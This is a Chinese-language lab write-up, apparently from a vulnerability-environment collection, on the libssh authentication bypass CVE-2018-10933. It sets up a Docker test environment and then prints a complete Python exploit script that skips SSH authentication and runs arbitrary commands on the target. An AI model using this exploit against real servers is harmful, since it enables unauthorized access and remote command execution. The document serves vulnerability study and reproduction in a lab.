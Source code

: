 # libssh 服务端权限认证绕过漏洞（CVE-2018-10933）

libssh是一个提供ssh相关接口的开源库，包含服务端、客户端等。其服务端代码中存在一处逻辑错误，攻击者可以在认证成功前发送`MSG_USERAUTH_SUCCESS`消息，绕过认证过程，未授权访问目标SSH服务器。

参考资料：

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

## 漏洞环境

执行如下命令启动存在漏洞的环境：

```
docker compose up -d
```

环境启动后，我们可以连接`your-ip:2222`端口（账号密码：`myuser:mypassword`），这是一个合法的ssh流程：

![](1.png)

## 漏洞复现

参考 https://www.seebug.org/vuldb/ssvid-97614 中给出的POC，我们编写一个简单的漏洞复现脚本：

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

```

使用python3执行，即可在目标服务器上执行任意命令：

![](2.png)
